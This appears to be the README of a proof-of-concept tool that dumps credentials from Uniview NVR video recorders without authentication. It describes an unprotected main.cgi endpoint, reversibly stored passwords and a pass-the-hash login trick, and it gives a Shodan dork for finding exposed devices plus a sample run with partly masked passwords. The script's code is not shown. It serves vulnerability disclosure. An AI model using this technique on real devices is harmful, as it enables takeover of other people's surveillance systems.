 # Uniview NVR remote passwords disclosure

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
  NVR304-16E - Software Version B3118P26C00510
  NVR301-08-P8 - Software Version B3218P26C00512
						version B3220P11
						version B3219P22

 Other versions may also be affected

> Sodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

	root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5
	Uniview NVR remote passwords disclosure!
	Author: B1t0n
	
	[+] Getting model name and software version...
		Model: NVR301-08-P8
 		Software Version: B3218P26C00512

 	[+] Getting configuration file...
 	[+] Number of users found: 4

 	[+] Extracting users' hashes and decoding reversible strings:

 	User 	|	 Hash 	|	 Password
 	_________________________________________________
 	admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 	default 	|	 	|	||||||||||||||||||||
 	HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 	test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  	*Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
